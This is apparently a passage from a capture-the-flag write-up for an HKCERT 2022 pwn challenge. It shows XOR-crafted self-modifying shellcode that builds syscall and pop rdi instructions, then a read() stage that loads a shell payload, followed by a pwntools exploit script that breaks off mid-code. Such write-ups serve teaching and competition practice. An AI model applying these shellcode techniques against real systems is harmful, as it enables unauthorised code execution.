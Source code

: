 To achieve the of `read` syscall, we need to control `rax`, `rdi`, `rsi`, `rdx` and from the above register info, we know that we only need to prepare the value of `rax` and `rdi`.

We abused `xor al, $imm` and `xor [rdx + $offset], al` to craft `0f05` of syscall and `5f` of `pop rdi`.

```asm
// Craft syscall
xor al, 0x44
xor al, 0x4b
xor [rdx + 0x42], al
xor al, 0x4e
xor al, 0x44
xor [rdx + 0x43], al

// Craft pop rdi
xor al, 0x5a    
xor [rdx + 0x41], al
```

For the `rax`, we can use `pop rax` to get the `0` from stack memory.
After that, we use `push rax` to pass the `0` to stack to pass it to rdi by `pop rdi`.

Combine the plan together, we can have the `read(0, 0x00000013370000, 0x00000013370000)` call, then we just need to pass the payload from `shellcraft.sh()` with a few padding.

Finally, we get the shell!.

#### Full exploit
```python
from pwn import *

TARGET = './chall'
HOST = 'chal.hkcert22.pwnable.hk'
PORT = 28130
context.arch = 'amd64' # i386/amd64
context.log_level = 'debug'
context.terminal = ['tmux','splitw','-h']
elf = ELF(TARGET)

if len(sys.argv) > 1 and sys.argv[1] == 'remote':
    p = remote(HOST, PORT)
    # libc = ELF('')
else:
    p = process(TARGET)
    libc = elf.libc
    gdbscript = '''b *0x0000000000401b4b'''
    if len(sys.argv) > 1 and sys.argv[1] == 'gdb':
       gdb.attach(p, gdbscript=gdbscript)

#--- helper functions
s       = lambda data               :p.send(data)
sa      = lambda delim,data         :p.sendafter(delim, data) 
sl      = lambda data               :p.sendline(data) 
sla     = lambda delim,data         :p.sendlineafter(delim, data) 
r       = lambda numb=4096          :p.recv(numb)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
# misc functions
uu32    = lambda data   :u32(data.ljust(4, b'\x00'))
uu64    = lambda data   :u64(data.ljust(8, b'\x00'))
leak    = lambda name,addr :log.success('{} = {:#x}'.format(name, addr))
#---

sc = asm('''
// Craft syscall 
xor al, 0x44
```